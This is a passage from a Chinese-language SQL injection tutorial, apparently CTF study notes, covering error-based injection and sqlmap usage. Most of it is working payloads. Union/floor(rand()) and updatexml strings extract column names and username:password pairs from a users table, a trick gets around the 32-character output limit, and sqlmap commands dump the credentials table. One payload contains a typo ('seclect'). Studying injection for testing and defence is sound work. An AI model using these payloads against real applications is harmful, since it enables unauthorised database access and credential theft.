 ```
id=0' union select 1,2,3 from (select count(*),concat((seclect concat(column_name,0x3a) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.columns group by x)a--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)--+
```

​	(6)字段值的获取

​		附上语句:

```
id=0' union select 1,2,3 from (select count(*),concat((select concat(username,0x3a,password,0x3a) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)--+
```

​	注:如果用updatexml函数和extrctvalue函数的话，密码长度超过32位不会被显示出来，最长为32位

此时可以将它取反，或者单独用left，mid，right函数

```
password=' or updatexml('',concat('~',reverse((select Fl4g from Flag))),'')%23
```

```
id=' and updatexml(1,concat(0x7e,left((select database()),3),0x7e),1)--+

取最左边三位
```



### **利用sqlmap注入:**

```
python sqlmap.py -u “url” --dbs --batch

python sqlmap.py -u “url” -D security --tables --batch

python sqlmap.py -u “url” -D security -T users --columns --batch 

python sqlmap.py -u “url” -D security -T users --C “username,password” --dump --batch
```

 

# 堆叠注入
